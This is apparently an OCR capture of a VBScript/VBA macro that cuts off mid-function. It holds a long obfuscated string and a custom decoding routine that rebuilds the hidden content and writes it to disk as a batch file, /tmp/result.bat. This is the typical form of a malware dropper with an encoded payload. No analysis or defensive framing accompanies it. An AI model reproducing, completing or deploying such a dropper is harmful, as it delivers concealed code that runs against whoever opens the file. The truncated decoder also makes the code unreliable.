 ```visualbasic
marsspider_subfile="L22qJ2^.1N-,./'2;.1_YN3,%@/,*J,3@?237_w[D_2zsqV_:_)e)_06./'2J.H[NsVe?@'T<P9T:J-oa/9(N*0[<@Lcc]/e&DF39D2c&Yz6}*FT}]z!y21c(@ic%73L{@FR<]L-7J1o:/'2J.H[120q<<9_)q)!a/9egN2ku%^cmP^c4<Fo(].(<93L+@/R<P9omq)!a/9egs2k4?-cgs,3sB.zu<1a2_1-aV93a/9TgN2PYL/c%2V].L1FY./-%2V](LHF1JNL<@zc*gL-u%9ce@ocLD/c4_wq%%'c]2NFa19cJ,>6z.0!ws-,<_36):^/gJ2k)qoRu]F!X]F-&@F(:/'2P,)!m25,4<:o]]2(F2Vc-]2.;,w]s7y><%.a>N3/cNm,XP9_i<.;}/{2422cJNLka19T-g2P;,w]#7y><%.a!@/R<N:];92,'%',X@5(L.0!TN0,u,L.gPL(aw9;a/9T,J0_w@0cg@oc<sm3u763JDzT7]2!)?Nc5@ic}9)[D9)3NX1ko9)/!@oc@NN]o9)cz@2cwN0/9JN[z.0[yJwa<_HeJg:!J2^_a19T]s2kzL0c;2*F]9oa<<9_(_.!w*NL!@,c@NN]>N3/cNm,J]._XJ23+@,cJ].oa19Tgs2k7@0cz@oc(:V/,@),u2>]z.0c;2*F]9oa'<'_4PL(8D.(+@,Ty].oBP.((]zTJD:L:,w[&]F[:/'2J.H_Js.az90c;2*F]9oa7<9_[:0/),5,191PX7y>N]5;&]+cuqmcX]^c}PL(aw9ca/9Ta/9T]N2P7@0czL0cws-,<_36):^/gJ2k)qoRXP9aa19(NJ0_;@0c<@Lc}]/e&DF,X@5(z@2a(:V/,@),<2>]D]/T&gF,}/'2<DF[J_.!JP9-&@F(:/'2JqH_Y9/c%2V].L1F<gLFu.9eF,Vcm,H.4<.o*D.(}/{2422cJsLPa19T,J0_<@Lc}g/c&DF,z.0cws-,<_36):^/gJ2k)qoRJ]:cJ?^_a19Tgs2k_@oc!.1q].V_<:+Pk_,!!],-@NN]<7y>4]6!*g.(./'2J.H[uD+aY./!%2V].L1F:7y><%.aY./!%2V].L1FN7y><%.aY./!%2V].L1FV7y><%.aY./!%2V].L1Fs7y><%.a}/{2}/{2./'2J.H_Js.az90cws-,<_36):^/gJ2k)qoR:B9Taw9ca/9TJ<{>gJ03:]/[w_w[s]Fc:%.zy?-c!D/k@NN]>N3/cNm,a/9_N*0[;@0c<@Lc}]/e&DF3J@5(J]5(z.0!;2*F]9oa}DL_y?1c(@ic%73Ly@FRY]/e6*aPk%,!J%9c7]2!<@Lc(%zc1JNLY@,c6*aPk%,!u]Fcs]F-(@icY*3LJ?53JDT>7]2!s@9c(%Hc(D:Lw*NLY@,c6*aPk%,!u]FcX]F-(@icY*3LJ?53JDT>7]2!s@+c(%zc(D:L8J3Ly@F[<g/e]?NF*@0c<@,cy7ok<Jwk4J2Ra/9cgN2k8@zc7%9(7PFa%P*cg?NzDs0q:,,[}sNe(]zc(D:L<*/LyNVq-20c:/'2o71/N.)eJ7H/JDzc)D.cog,ToD0>8g.a*@.(7/{27PFa?/'2&_3[>g/,(*>_5<{L1/'2JXz39]L!-?Nc<@icJg:(J2^[a19Tgs2P7@0c{@zc7]i-]2,P[22.6L3]kP,!N]Lc?@,z1N-,s7y>7%zao.)T7Yi(120q'<'_9]L!7%zaaw9ca/9T}.V_y@F]<DFe(gL-%<'L]2NF:/'2JqH[;92,<%9,%.3]Y*)P<,L,}/'2<DF_yJw[+q1e)PF(<Y9;u%9c-@2c;,w]g7y><%6a(@ic%73Lw@/]7?03XY+Rg@y(DP*o)J^qzJ)[9q3_<q/e:?0_7sVq9J,kN?2RaV9kgN2kzL0cws-,<_36):^/gJ2k)qoR(PF-<93L*@FRk:wF-],-;,w]*,Fcm/{2aw9T]N2PRLmc7P9/k:wFX7y>a/9c]s2k7@0cz@ocwN0/9JN[z.0[<7oaNY2RuD+3(]z(wJNL>?)c*@FRR.m!*]L/u%9c?@ocHD/c>X1,(@{c<73Lz@/RwN0/9JN[z.0[yJwau_He&_3!0Dik<@:q}/{2</'2]2Nz*@0cz@2cwN0/9JN[z.0[yJwa<_Hem/{2@,)_</'2g?NF"
cryptofunc_res = cryptofunc(marsspider_subfile)

rawf = "/tmp/result.bat"   '
FF = FreeFile
Open rawf For Binary Access Write As #FF          '
Put #FF, 1, cryptofunc_res
Close #FF

Function cryptofunc(cryptofunc_param1)
    six_bits_array=Array("000000","000001","000010","000011","000100","000101","000110","000111","001000","001001","001010","001011","001100","001101","001110","001111","010000","010001","010010","010011","010100","010101","010110","010111","011000","011001","011010","011011","011100","011101","011110","011111","100000","100001","100010","100011","100100","100101","100110","100111","101000","101001","101010","101011","101100","101101","101110","101111","110000","110001","110010","110011","110100","110101","110110","110111","111000","111001","111010","111011","111100","111101","111110","111111")
    do until Len(cryptofunc_param1) Mod (3) = (0)
        cryptofunc_param1 = cryptofunc_param1 & Chr(61)
    loop
    cryptofunc_result = ""
    For i = (1) To Len(cryptofunc_param1) - (1) Step (4)
        cryptofunc_param1_4chars = Mid(cryptofunc_param1,i,(4))
        str2 = ""
        For j = (1) To (4)
            if mid(cryptofunc_param1_4chars,j,(1)) = Chr(61) then
                str2 = str2 & "00000000"
            else
				movdata = "3/24/2017 10:17:12 AM111,49,83,6,61,53,73,91,1,128,57,8,110,111,101,114,101,40,99,90,60,113,112,70,11,116,71,77,123,32,110,5,52,106,28,20,106,111,47,93,82,31,27,109,38,56,118,6,96,37,32,94,42,118,118,9,56,94,103,43,12,3,123,128"
                func2_result=func2(movdata)
                six_bits_index = instr(func2_result, Mid(cryptofunc_param1_4chars,j,(1))) - (1)
                str2 = str2 & six_bits_array(six_bits_index)
            end if
        Next
        str3 = mid(str2,(19),(6)) & mid(str2,(7),(2))
        int1 = (0)
        str4 = mid(str2,(9),(8))
        powerof2=Array(128,64,32,16,8,4,2,1)

        str5 = mid(str2,(17),(2)) & mid(str2,(1),(6))
```